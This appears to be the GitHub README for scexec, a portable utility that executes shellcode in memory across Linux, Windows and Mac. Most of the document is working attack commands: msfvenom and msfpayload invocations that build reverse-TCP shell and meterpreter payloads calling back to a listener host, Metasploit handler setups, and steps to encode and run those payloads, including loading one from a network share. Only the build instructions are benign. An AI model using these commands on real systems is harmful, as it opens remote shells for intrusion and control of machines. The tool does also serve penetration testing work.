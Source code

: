 [![Build Status](https://travis-ci.org/kost/scexec.png)](https://travis-ci.org/kost/scexec)

scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========

## Linux target

    $ msfvenom -p linux/x86/shell_reverse_tcp -a x86 --platform linux -e x86/alpha_mixed -f raw LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -e x86/alpha_mixed -f raw LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f raw LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfvenom -p linux/x86/shell_reverse_tcp -a x86 --platform linux -f raw LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

## Few more quick examples

Read and execute payload from filename msfpayloadfn.raw:

    C:\> scexec.exe f msfpayloadfn.raw

Read and execute base64 encoded payload from filename msfpayloadfn.base64:

    C:\> scexec.exe fb msfpayloadfn.base64

Read and execute uuencoded payload from share:

    C:\> \\192.168.1.1\\scexec.exe fu \\192.168.1.1\\msfpayload.uuencoded

Options explained
=================

Options can be combined:

no options - read alphanumeric shellcode from commandline

a - execute shellcode through call eax/rax

f - read shellcode from file

b - treat input shellcode as base64 encoded

u - treat input shellcode as uuencoded shellcode


Building
========

### Linux/Mac/POSIX builds

Just type:

    make

### Mingw builds:

32 bit:

    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

64 bit:

    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

### Visual Studio:

32 bit:

    nmake /f Makefile.vc

64 bit:

    nmake /f Makefile.v64

### Builds

    make CC=i386-mingw32-gcc STRIP=i386-mingw32-strip OUT=../bin/scexec-win32.exe
    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=../bin/scexec-win32c.exe
    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=../bin/scexec-win64.exe
    make CC=gcc STRIP=strip OUT=../bin/scexec-macosx-x64-dyn.bin
    make CC=armeb-linux-gcc STRIP=armeb-linux-strip CFLAGS=-static OUT=../bin/scexec-armeb-linux.bin
    make CC=arm-linux-gcc STRIP=arm-linux-strip CFLAGS=-static OUT=../bin/scexec-arm-linux-static.bin
    make CC=mips-linux-gcc STRIP=mips-linux-strip CFLAGS=-static OUT=../bin/scexec-mips-linux-static.bin
    make CC=mipsel-linux-gcc STRIP=mipsel-linux-strip CFLAGS=-static OUT=../bin/scexec-mipsel-linux-static.bin


Old MSF Examples
================

## Linux target

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

Credits
=======

Vlatko Kosturjak

Based on Bernardo Damele A. G. shellcodeexecute

